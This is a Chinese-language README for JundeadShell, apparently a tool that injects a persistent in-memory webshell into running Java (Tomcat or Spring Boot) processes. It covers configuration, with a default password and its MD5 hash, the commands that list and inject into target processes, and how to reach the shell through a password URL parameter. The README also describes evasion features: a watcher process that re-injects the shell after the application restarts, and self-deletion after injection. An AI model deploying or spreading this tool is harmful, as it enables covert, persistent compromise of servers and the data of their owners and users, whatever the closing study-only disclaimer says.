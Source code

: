 # JundeadShell
***
> 一个可以复活的Java内存马
***
### Usage
1.先根据环境修改配置文件
>配置文件位置在: agent_starter.jar内部config目录下
>```
># 目标url IP地址可以是127.0.0.1。在web应用关闭时，会挂起一个新进程用于监听。当web应用重新启动后，会自动重新注入。
>target_url=http://127.0.0.1:80/
># 连接密码的md5值 默认密码:Jundead
>password=AC9A489BB6873C5FB760370FD62A793E
># 调试模式 开启后会在当前目录创建日志文件，也会在目标web服务中打印少量日志信息。
>debug=false
>```

2.列出Java进程列表
>`java -jar agent_starter.jar list`

3.根据进程名注入
>`java -jar agent_starter.jar <displayName> <tomcat_version>`
>
>举例：`java -jar agent_starter.jar "SpringbootDemo.jar" 9`
>
>注入进程的displayName是SpringbootDemo.jar，使用的tomcat_version是9。
>
> PS: tomcat容器的进程名一般是："org.apache.catalina.startup.Bootstrap start"
>
> 注入成功会后自动删除自身。

4.连接webshell
>浏览器访问http://x.x.x.x/xxx?password=密码
***
### FAQ
- 注入成功了，但webshell不生效？
>如果注入目标是Tomcat容器的应用，连接webshell的url需要是能够正常访问的url。
>如果注入目标是springboot框架应用，连接webshell的url可以是任意url。
***
### Disclaimers
该项目仅供学习、研究之用，禁止用于非法用途。
